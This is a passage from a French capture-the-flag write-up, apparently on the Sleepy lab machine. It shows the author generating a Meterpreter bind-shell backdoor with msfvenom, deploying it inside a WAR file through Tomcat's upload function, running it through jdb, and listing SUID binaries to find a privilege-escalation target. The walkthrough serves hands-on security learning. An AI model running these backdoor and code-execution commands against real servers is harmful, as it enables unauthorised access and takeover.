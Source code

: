 Ce shell est certes plus sexy à première vue... mais on s'aperçoit vite qu'il gère mal aussi les pipes et compagnie... Et il nous faut absolument pouvoir uploader une backdoor digne de ce nom.  

Pour cela on va réutiliser la fonctionnalité d'upload du Tomcat en intégrant une backdoor dans une archive war :  

```plain
msfvenom -p linux/x86/meterpreter/bind_ipv6_tcp LPORT=9999 -f elf > backdoor
```

Une fois le war déployé on retrouve la backdoor dans l'arborescence du Tomcat. Il ne reste plus qu'à l'exécuter via jdb si on veut un shell avec l'utilisateur *sleepy* :  

```plain
print new java.lang.Runtime().exec("/usr/share/tomcat/webapps/cmd/backdoor")
```

Permis de tuer
--------------

Une fois le *meterpreter* récupéré on fouille un peu :  

```plain
bash-4.2$ find / -perm -u+s 2> /dev/null
find / -perm -u+s 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/nightmare
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib64/dbus-1/dbus-daemon-launch-helper
bash-4.2$ ls -l /usr/bin/nightmare
ls -l /usr/bin/nightmare
-rwsr-s---. 1 root tomcat 8669 Jan 18  2015 /usr/bin/nightmare
```

On voit ici un programme baptisé *nightmare* qui ne semble pas commun (aucun retour après une recherche web), qui plus est le set-gid *tomcat* fait un peu tâche avec le nom du binaire...  

Manque de bol il n'est pas word-readable donc il faut récupérer le binaire en tant que *tomcat* (ou recopier le binaire et mettre les bonnes permissions dessus pour ensuite le récupérer en tant que *sleepy*).  

Haha quand je pense que je me suis démené pour avoir les droits de *sleepy* :'D :'( Uh mad bro ?  
